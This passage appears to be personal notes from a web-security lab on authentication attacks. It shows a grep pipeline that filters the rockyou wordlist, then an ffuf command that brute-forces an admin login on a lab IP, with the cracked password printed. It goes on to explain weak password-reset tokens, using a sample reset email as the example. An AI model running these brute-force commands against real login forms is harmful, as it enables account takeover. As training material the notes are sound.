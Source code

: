 So I'll match the policy to `rockyou.txt`:

```shell
grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

If I try an invalid combination I get this error:

![](Pasted%20image%2020250314102822.png)

So I'll use it in **ffuf**:

```shell
ffuf -w ./custom_wordlist.txt -u http://83.136.251.75:57301/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -s

[redacted]
Ramirez120992
```

# Brute-Forcing Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![](Pasted%20image%2020250314103123.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```
